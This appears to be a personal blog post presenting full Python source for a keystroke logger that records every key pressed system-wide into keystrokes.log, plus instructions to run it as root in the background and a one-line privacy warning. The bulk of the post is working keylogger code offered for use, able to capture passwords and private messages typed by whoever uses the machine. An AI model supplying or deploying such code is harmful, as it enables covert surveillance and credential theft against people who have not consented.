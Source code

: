 ```yaml
---
layout: post
title:  "Keylogger"
date:   2024-06-02 18:30:00 -0500
categories: tools
tags: writeup source-code python tools
image:
  path: /assets/img/keylogger/keylogger-guide.jpg
---
```


## Overview
This project is a **keystroke logger** that captures and records the keys pressed on the keyboard, logging them into a file named **keystrokes.log**. It processes each key press event to handle specific actions, such as backspace, special characters, and modifier keys (Ctrl, Shift, Alt), and writes the corresponding character to a log file.

This project is useful for purposes such as creating simple keystroke logging applications, debugging, or testing keyboard input behavior. 

## Demo
![demo](./assets/img/keylogger/demo.gif)

## Source code
```bash
import keyboard

log_file = "keystrokes.log"
shift_special_chars = {
    '1': '!',
    '2': '@',
    '3': '#',
    '4': '$',
    '5': '%',
    '6': '^',
    '7': '&',
    '8': '*',
    '9': '(',
    '0': ')',
    '-': '_',
    '=': '+',
    '[': '{',
    ']': '}',
    '\\': '|',
    ';': ':',
    '\'': '"',
    ',': '<',
    '.': '>',
    '/': '?'
}

def on_key_press(event):
    if event.name == 'backspace':
        # Handle backspace by removing last character
        try:
            with open(log_file, 'r+') as f:
                content = f.read()
                if content:
                    f.seek(0) # To beginning of file
                    f.truncate()  # Clear file contents
                    f.write(content[:-1])  # Rewrite without last character
        except FileNotFoundError:
            pass

    elif event.name in ['ctrl', 'left ctrl', 'right ctrl', 'alt', 'shift'] or 'ctrl' in event.modifiers or 'alt' in event.modifiers:
        pass
    
    else:
        char = event.name
        
        if char == 'space':
            char = ' '
        elif 'shift' in event.modifiers:
            if len(char) == 1 and char.isalpha():
                char = char.upper()
            elif char in shift_special_chars:
                char = shift_special_chars[char]
        elif char == 'enter':
            char = '\n'
        elif char == 'tab':
            char = '\n /tab \n'

        with open(log_file, 'a') as f:
            f.write(char)

keyboard.on_press(on_key_press)
keyboard.wait()
```

## How to use
To run the script, using 
```bash
sudo python3 keylogger.py &
```

To view the log, using
```bash
cat keystrokes.log
```

## Warning
**Keystroke logging can be intrusive and potentially violate privacy**. So it should be used responsibly and ethically.
